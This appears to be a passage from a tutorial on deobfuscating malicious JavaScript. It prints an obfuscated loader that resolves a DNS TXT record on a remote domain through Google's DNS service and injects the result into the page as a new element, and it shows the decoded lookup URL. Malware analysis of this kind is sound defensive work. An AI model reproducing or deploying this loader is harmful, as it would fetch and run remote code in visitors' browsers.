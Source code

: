 ``` JavaScript
    return _0x2886d9;
};

function ccc() {
    var _0x3bf9f2 = [_0x58f7('0x0'), _0x58f7('0x1'), _0x58f7('0x2'), _0x58f7('0x3'), _0x58f7('0x4'), _0x58f7('0x5'), _0x58f7('0x6'), 'Answer', _0x58f7('0x7'), _0x58f7('0x8'), _0x58f7('0x9'), _0x58f7('0xa'), 'appendChild', _0x58f7('0xb')];
    (function(_0x532510, _0x26a9cf) {
        var _0x47b474 = function(_0x5c32a3) {
            while (--_0x5c32a3) {
                _0x532510[_0x58f7('0xc')](_0x532510[_0x58f7('0xd')]());
            }
        };
        _0x47b474(++_0x26a9cf);
    }(_0x3bf9f2, 0x1b2));
    var _0x58060d = function(_0x13b5d5, _0x174409) {
        _0x13b5d5 = _0x13b5d5 - 0x0;
        var _0x1aae1c = _0x3bf9f2[_0x13b5d5];
        return _0x1aae1c;
    };
    var _0x48f014 = new XMLHttpRequest();
    _0x48f014[_0x58060d(_0x58f7('0xe'))](_0x58060d(_0x58f7('0xf')), v);
    _0x48f014[_0x58060d(_0x58f7('0x10'))] = function() {
        if (_0x48f014[_0x58060d(_0x58f7('0x11'))] == 0xc8 && _0x48f014[_0x58060d(_0x58f7('0x12'))] == 0x4) {
            var _0x45edda = JSON[_0x58060d(_0x58f7('0x13'))](_0x48f014[_0x58060d(_0x58f7('0x14'))]);
            var _0x2e08f9 = _0x45edda[_0x58060d(_0x58f7('0x15'))][0x0][_0x58f7('0x16')];
            var _0x599d3c = document[_0x58060d(_0x58f7('0x17'))](_0x58060d(_0x58f7('0x18')));
            _0x599d3c[_0x58060d(_0x58f7('0x19'))] = _0x2e08f9[_0x58060d(_0x58f7('0x1a'))](0x1, _0x2e08f9[_0x58f7('0x1b')] - 0x1);
            document[_0x58f7('0x1c')][_0x58060d(_0x58f7('0x1d'))](_0x599d3c);
        }
    };
    _0x48f014[_0x58060d('0xd')]();
}
```

Carefully save this script to a new malicious.js file on the sandbox for later.

The following lines jump out after a quick review:

1. Line 1 contains a BASE64 string
1. Line 2 an array of functions that are likely called in the code
1. Line 32 XMLHttpRequest

Using [CyberChef](https://gchq.github.io/CyberChef/) Line 1 is decoded to:

```
https://dns.google.com/resolve?name=fetch.slzxkcee.glamisbound.com&type=TXT
```

This is a URL for google's DNS lookup service.  More specifically it is doing a lookup for a TXT DNS record for subdomain fetch.slzxkcee.glamisbound.com.


[1]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image1.png
[2]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image2.png
[3]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image3.png